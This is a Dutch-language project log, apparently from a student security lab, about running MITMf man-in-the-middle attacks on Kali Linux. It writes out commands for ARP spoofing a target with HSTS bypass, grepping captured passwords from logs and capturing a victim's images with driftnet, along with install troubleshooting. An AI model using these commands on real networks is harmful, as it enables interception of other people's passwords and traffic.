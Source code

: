 > cd /usr/share/mitmf/logs
> cat mitmf.log | grep pass

Nu zien we alle 'strings' waar 'pass' invoor komt!

![Wachtwoordennnn](http://i.imgur.com/xbf5Bfp.png)

**Got passwords**
* mitmf -i eth0 --target 192.168.137.64 --gateway 192.168.137.1  --arp --spoof --hsts
* 2 spaties voor --arp!!!!!
* [Demo YouTube](https://youtu.be/jGgy2WOmDBo)

**Got images**
* driftnet -b -i eth0
* [Demo YouTube](https://youtu.be/co7Gy-zeeLE)

We hebben dit ook even op een WiFi netwerk getest en dit werkt ook! We hebben vandaag toch een mooie stap gezet! We zijn instaat om een MITM aanval te doen! En we kunnen wachtwoordne 'hacken' op https sites, we kunnen eveens zien welke afbeeldingen het victim download!

# 29/12/2015

Kali OS bevat standaard een versie van MITMf die via apt-get install MITMf geïnstaleerd kan worden.
Volgens de autheur van MITMf loopt deze versie echt wat achter op de laatste patches.

We hadden gisteren af en toe problemen dat MITMf crashte en hoppen dit nu zo op te lossen...
We hebben dus de laatste versie via GitHub gedownload en de [installatie instructies](https://github.com/byt3bl33d3r/MITMf/wiki/Installation) gevolgd.

#### Problemen installatie:
- Kon source /usr/bin/virtualenvwrapper.sh niet vinden </br> Stond op een ander plek op Kali OS (zelfde plek als Ubuntu):   */usr/**local**/bin/virtualenvwrapper.sh* </br>
  [Bron (StackOverflow)](http://stackoverflow.com/questions/12647266/where-is-virtualenvwrapper-sh-after-pip-install)
- Wat is .bashrc? </br> Het doel van een .bashrc bestand is om een plek te voorzien waar je variabelen, functies en aliassen op kan zetten. Bepaal uw prompt en difinieer andere instelling die u wilt gebruiken. Elke start moet er een nieuw terminal scherm geopend worden. Telkens wanneer er een nieuw terminal, raam of venster geopend wordt werkt het. bashrc draait op elke interactieve shell launch.
- Nog allerlij Linux gerelateerde problemen (dependencies die missen, ...)

#### Nieuwe zaken geleerd (CMD) tijdens testen:
- arp -d -a  </br> Alle bestaande ARP gegevens verwijderen
- ipconfig /flushdns </br> DNS cache leegmaken

#### Problemen:
- HSTS omzeilen werkte niet goed bij deze versie. Werkte 5 keer goed en daarna kwamen er enkel nog time-outs...

We hebben besloten hiermee niet verder te gaan aangezien het geen verbetering was. We gebruiken nu dus nog steeds de meegeleverde versie!

Conclusie: Gigantisch gefaald / Tijdverspilling

### Met andere "modes" van MITMf gespeeld.
